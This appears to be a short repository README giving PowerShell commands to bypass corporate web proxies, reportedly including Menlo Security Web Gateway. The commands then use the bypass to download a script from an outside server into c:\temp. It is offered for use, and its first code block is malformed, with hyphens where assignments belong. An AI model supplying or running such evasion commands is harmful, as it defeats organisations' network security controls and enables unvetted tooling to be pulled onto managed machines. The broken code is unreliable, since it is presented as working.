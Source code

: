 # Proxy-Bypass using PowerShell.
When PowerShell is available and you need to bypass those annoying corp proxies, give this a try. A proxy bypass using powershell. Sucecssfully used to bypass Menlo Security Web Gateway. 

## PowerShell code for proxy bypass.
Paste as is into powershell session. 
```
$Proxy-New-object System.Net.WebProxy
$WebSession-new-object Microsoft.PowerShell.Commands.WebRequestSession
$WebSession.Proxy=$Proxy
```

## Test proxy bypass is working.
If working, you should get back a StatusCode: 200 and a bunch more content including headers etc.
```
Invoke-webrequest -Uri "https://www.google.com" -WebSession $WebSession
```

## Download scripts/tooling using bypass.
```
Invoke-webrequest -Method Get -Uri "https://ServerAddress/tool.ps1" -WebSession $WebSession -outfile c:\temp\tool.ps1
```
